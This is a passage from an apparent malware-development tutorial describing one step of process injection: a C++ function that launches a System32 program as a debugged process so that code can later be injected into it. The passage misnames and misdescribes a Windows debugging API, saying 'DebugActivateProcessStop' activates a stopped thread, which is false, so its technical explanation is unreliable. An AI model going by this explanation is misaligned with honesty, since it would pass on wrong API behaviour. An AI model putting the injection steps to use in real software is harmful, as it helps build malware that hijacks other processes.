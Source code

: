 In Windows operating systems, `DebugActivateProcessStop` is a function used to activate a thread that is in a stopped state due to debugging. It's part of the debugging API and is primarily employed to resume the execution of a thread that has been halted for debugging purposes. As we will be creating a process in debug mode we will need to use this API so we can activate the thread again after injection.

# Creating a debugged process

We will be using `CreateProcess` API call, it will not be explained in depth as it is explained more [here](https://ry0dan.github.io/malware%20development/Malware-Development-Crafting-Digital-Chaos-08/).

We will be passing `DEBUG_PROCESS` as a creation flag in the place of`dwCreationFlags` parameter so we can create a debugged process.

```cpp
BOOL CreateDebuggedProcess(IN LPCSTR lpProcessName,OUT DWORD* dwProcessId,OUT HANDLE* hProcess,OUT HANDLE* hThread) {

  CHAR lpPath[MAX_PATH * 2];
  CHAR WnDr[MAX_PATH];

  STARTUPINFOA si = {0};

  PROCESS_INFORMATION pi = { 0 };

  RtlSecureZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  RtlSecureZeroMemory(&si, sizeof(STARTUPINFO));

  si.cb = sizeof(STARTUPINFO);

  if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {

    printf("GetEnvironmentVariableA failed with error %x", GetLastError());
    return FALSE;

  }

  sprintf(lpPath, "%s\\System32\\%s", WnDr,lpProcessName);

  if (!CreateProcessA(
    NULL,
    lpPath,
    NULL,
    NULL,
    FALSE,
    DEBUG_PROCESS,
    NULL,
    NULL,
    &si,
    &pi
    )) {

    printf("CreateProcessA failed with error %x\n", GetLastError());
    return FALSE;
  }

  *hProcess = pi.hProcess;
  *dwProcessId = pi.dwProcessId;
  *hThread = pi.hThread;

  return TRUE;


```